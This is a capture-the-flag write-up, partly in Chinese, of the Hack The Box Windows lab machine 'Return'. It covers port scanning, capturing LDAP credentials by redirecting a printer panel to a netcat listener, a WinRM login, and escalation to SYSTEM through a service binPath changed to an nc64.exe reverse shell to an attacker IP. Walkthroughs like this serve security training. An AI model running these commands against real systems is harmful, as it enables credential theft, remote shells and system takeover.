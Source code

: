 ```yaml
---
title : "Hack The Box - Return"
author: fsociety
date: 2024-04-25 11:26:00 +0800
categories: [Hackthebox, Hackthebox-Windows, Hackthebox-Easy]
tags: [LDAP Bind,evil-winrm,Abuse Server Operators]
---
```


![image](../assets/post_img/Snipaste_2024-04-25_17-05-57.png)

**Return is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.**

```
Return 是一款简单难度的 Windows 机器，具有存储 LDAP 凭据的网络打印机管理面板
这些凭据可以通过输入恶意 LDAP 服务器来捕获，该服务器允许通过 WinRM 服务在服务器上获得立足点
发现用户属于特权组的一部分，该特权组被进一步利用以获得系统访问权限
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.241 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.95.241

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-25 09:27:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

```
域控机器
```

### <span style="color:lightgreen">Website - TCP 80</span>


```
http://10.129.95.241/settings.php
```

![images](../assets/post_img/Snipaste_2024-04-25_17-22-00.png)

```
我们可以尝试更改Server Address 获取对应的凭据信息
```

```
sudo nc -lvnp 389
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:52310.
0*`%return\svc-printer�
                       1edFg43012!!
```

```
return\svc-printer:1edFg43012!!
```

### <span style="color:lightgreen">WinRM</span>

```
evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> ls


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/25/2024   2:22 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type "C:/Users/svc-printer/Desktop/user.txt"
a89596456ff28b272c693646935a1353
```

## <span style="color:lightblue">Privilege Escalation</span>
### <span style="color:lightgreen">Abuse Server Operators</span>

```
Server Operators

Members of this group can start/stop system services

Server Operators组可以操作系统服务
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/qax/nc64.exe
Info: Uploading /home/qax/nc64.exe to C:\Users\svc-printer\Documents\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!


*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc64.exe -e cmd.exe 10.10.14.16 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

```
sudo nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:64973.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

```
C:\Windows\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
1e89d05fc5cf3fce485c6357983b57f9
```

```
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.16 443"
```

![image](../assets/post_img/Snipaste_2024-04-25_17-44-09.png)